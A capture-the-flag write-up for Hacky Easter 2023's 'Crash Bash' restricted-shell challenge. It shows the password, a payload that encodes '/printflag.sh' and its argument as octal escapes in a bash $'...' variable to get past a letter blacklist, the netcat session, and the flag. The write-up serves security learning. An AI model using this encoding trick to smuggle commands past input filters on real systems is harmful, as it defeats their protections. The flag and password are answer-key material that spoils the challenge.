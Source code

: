 # Description

# Crash Bash

Can you crash the bash?

The password is `B4sh_br0TH3rs`

Connect using `nc ch.hackyeaster.com 2303`

Note: The service is restarted every hour at x:00.

## Hints

Some characters are forbidden, in the whole string you enter.

# Solution

we have a really restricted shell, no normal alphabethic characters can be used.. but we can use numbers!!

if we enter something not allowed we get:

```
$ nc ch.hackyeaster.com 2303
Welcome to Crash Bash!
To get the flag, call /printflag.sh with the password!
Enter "q" to quit.
----------------------
crashbash$ a
Invalid input, bash crashed!
crashbash$ 
```

i tried a lot around and reminded myself of this video

<https://www.youtube.com/watch?v=6D1LnMj0Yt0&ab_channel=LiveOverflow>

but here `?`, `*` and `.` were not allowed

after some more searching i found this writeup:

<https://ctftime.org/writeup/8520>

this is exactly what we have here!!

so lets try what they have done

i also found this:

<https://medium.com/@orik_/34c3-ctf-minbashmaxfun-writeup-4470b596df60>

so i used this website to convert the command i want to execute to octal numbers:

<https://onlineasciitools.com/convert-ascii-to-octal>

```
/printflag.sh B4sh_br0TH3rs
```

got to

```
057 160 162 151 156 164 146 154 141 147 056 163 150 040 102 064 163 150 137 142 162 060 124 110 063 162 163
```

and this goes into our "exploit" syntax:

```
__=$'\057\160\162\151\156\164\146\154\141\147\056\163\150\040\102\064\163\150\137\142\162\060\124\110\063\162\163';$__
```

and here is the flag! :D

```
$ nc ch.hackyeaster.com 2303
Welcome to Crash Bash!
To get the flag, call /printflag.sh with the password!
Enter "q" to quit.
----------------------
crashbash$ __=$'\057\160\162\151\156\164\146\154\141\147\056\163\150\040\102\064\163\150\137\142\162\060\124\110\063\162\163';$__
Congrats, here's your flag:
he2023{gr34t_b4sh_succ3ss!}
crashbash$ 
```

# FLAG: he2023{gr34t_b4sh_succ3ss!}
